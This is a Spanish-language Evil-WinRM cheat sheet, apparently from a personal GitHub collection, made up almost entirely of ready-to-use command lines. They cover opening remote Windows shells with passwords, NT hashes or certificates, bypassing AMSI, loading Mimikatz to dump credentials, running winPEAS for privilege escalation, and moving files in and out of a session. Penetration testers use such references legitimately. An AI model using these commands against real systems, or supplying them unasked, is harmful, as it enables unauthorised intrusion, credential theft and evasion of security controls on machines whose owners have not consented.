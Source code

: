 # Evil-WinRM Cheat Sheet

#### Conexión usando usuario y contraseña
```
evil-winrm -i <IP-TARGET> -u '<USER>' -p '<PASSWORD>'
```

#### Conexión usando usuario con contraseña y conexión por SSL
```
evil-winrm -i <IP-TARGET> -u '<USER>' -p '<PASSWORD>' -S
```

#### Conexión usando un NT Hash
```
evil-winrm -i <IP-TARGET> -u '<USER>' -H '<NT-HASH>'
```

#### Conexión por SSL y proporcionando llave publica y privada
```
evil-winrm -i <IP-TARGET> -c <CERTIFICATE.pem> -k <PRIVATE-KEY.pem> -S
evil-winrm -i <IP-TARGET> -c <CERTIFICATE.pem> -k <PRIVATE-KEY.pem> -S -u '<USER>' -p '<PASSWORD>'
```

#### Cargar scripts de Powershell
```
evil-winrm --i <IP-TARGET> -u '<USER>' -p '<PASSWORD>' -s /opt/privsc/powershell
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```

#### Ejecutar archivos exe
```
evil-winrm --i <IP-TARGET> -u '<USER>' -p '<PASSWORD>' -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```

#### Conexión y guardar los logs de toda la sesión
```
evil-winrm -i <IP-TARGET> -u '<USER>' -p '<PASSWORD>' -l
```

#### Descargar un archivo dentro de sesión evil-winrm
```
Evil-WinRM> download C:\PATH\<FILE>
```

#### Cargar un archivo dentro de sesión evil-winrm
```
Evil-WinRM> upload <FILE>
```

#### Enumerar servicios del equipo dentro de sesión evil-winrm
```
Evil-WinRM> menu

services
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)